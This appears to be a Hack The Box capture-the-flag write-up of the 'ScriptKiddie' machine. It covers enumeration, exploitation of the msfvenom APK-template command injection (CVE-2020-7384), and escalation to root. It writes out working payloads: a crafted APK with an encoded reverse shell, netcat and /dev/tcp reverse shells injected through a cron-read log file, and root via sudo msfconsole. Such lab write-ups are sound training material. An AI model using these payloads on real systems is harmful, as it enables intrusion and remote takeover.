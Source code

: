 ![](scriptKiddie_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.226 scriptKiddie.htb

**nmap scan:**
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 5000 running Werkzeug httpd 0.16.1 (Python 3.8.5)

![](screenshots/web-page.png)

* There is no command injection or lfi.
* searchsploit and nmap don't have any known vulnerability.
* msfvenom have a template option which is vulnerable.
  * **Description:** This module exploits a command injection vulnerability in Metasploit Framework's msfvenom payload generator when using a crafted APK file as an Android payload template. Affects Metasploit Framework <= 6.0.11 and Metasploit Pro <= 4.18.0. The file produced by this module is a relatively empty yet valid-enough APK file. To trigger the vulnerability, the victim user should do the following: `msfvenom -p android/<...> -x` 
  * [CVE-2020-7384 Rapid7](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/)
    * msf module: `exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`
  * [Exploit script](https://www.exploit-db.com/exploits/49491)

# Foothold

## Command Injection

The command vulnerability is in step 2 of this process from [apk.rb#L194-L197](https://github.com/rapid7/metasploit-framework/blob/64695f1/lib/msf/core/payload/apk.rb#L194-L197). keytool is executed using the following command line:
```rb
      run_cmd("keytool -genkey -v -keystore #{keystore} \
      -alias #{keyalias} -storepass #{storepass} -keypass #{keypass} -keyalg RSA \
      -keysize 2048 -startdate '#{orig_cert_startdate}' \
      -validity #{orig_cert_validity} -dname '#{orig_cert_dname}'")
```

In particular, the value for `orig_cert_dname` is obtained from step 1 of the process, where the original APK was parsed and the "Owner" field was extracted from the APK's signature.

This command string is passed to `Open3.popen3()` in [apk.rb#L29-L36](https://github.com/rapid7/metasploit-framework/blob/64695f1/lib/msf/core/payload/apk.rb#L29-L36). When this function receives a single string parameter (as opposed to multiple parameters) it effectively acts as a `system()` function.
```rb
  def run_cmd(cmd)
    begin
      stdin, stdout, stderr = Open3.popen3(cmd)
      return stdout.read + stderr.read
    rescue Errno::ENOENT
      return nil
    end
  end
```

This gives rise to a command injection vulnerability. If a crafted APK file has a signature with an **"Owner"** field containing:
```bash
#A single quote (to escape the single-quoted string)
#Followed by shell metacharacters
#and run_cmd() function see it like that
-dname '#{CN='|echo cGluZyAtYyAyIDEwLjEwLjE1Ljcx | base64 -d | sh #}'
```

When that APK file is used as an msfvenom template, arbitrary commands can be executed on the msfvenom user's system.

* [Detailed advisories](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md)
* [commit changes](https://github.com/rapid7/metasploit-framework/pull/14288/commits/d1528cc0aa48ac667304f1e5116a784fe2dc8f15)

![](screenshots/template-injection.png)

### Exploit

This is a command injection vulnerability. When user supply a template apk to msfvenom , it takes application read it's certificate and use cert's owner for resign apk but don't check for strings certificate.

1. Create empty apk file
```bash
touch empty && zip -j payload.apk empty
```

![](screenshots/create-apk.png)

2. Create cert and add injection payload in `-dname` field
```bash
keytool -genkey -keystore ./signing.keystore -alias "signing.key" -storepass "password" -keypass "password" -keyalg RSA -keysize 2048 -dname "CN='|echo L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE1LjcxLzQxNDEgMD4mMScK | base64 -d | sh #"
```

![](screenshots/create-cert.png)

3. sign the apk with created cert
```bash
jarsigner -sigalg SHA1withRSA -digestalg SHA1 -keystore ./signing.keystore -storepass "password" -keypass "password" payload.apk "signing.key"
```

![](screenshots/signed-apk.png)

and this apk execute arbitrary code in the server and give reverse shell

![](screenshots/get-shell.png)

# Privesc

* Get shell as user "kid"
* user "pwn" have a bash script that taking content from user "kid" home folder.

![](screenshots/pwn-script.png)

* This can lead to command injection.
* Script execute by pwn cron when `/home/kid/logs/hackers` file get some data.
* using some extra words before payload to bypass `cut` command `cut -d' ' -f3-`
```bash
null null ;id|nc 10.10.15.71 4141 #
```

![](screenshots/cut-bypass.png)

pspy output

![](screenshots/pspy-lookup.png)

reverse shell
```bash
null null ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.71/4141 0>&1' #
```

![](screenshots/pwn-shell.png)

<!--echo "null null ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.71/4141 0>&1' #" > /home/kid/logs/hackers-->

## msfconsole with sudo

User have right to run `/opt/metasploit-framework-6.0.9/msfconsole` with sudo as root with no password
```bash
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

and inside msfconsole user "pwn" is root
```bash
sudo -u root /opt/metasploit-framework-6.0.9/msfconsole
```

![](screenshots/msf-root.png)

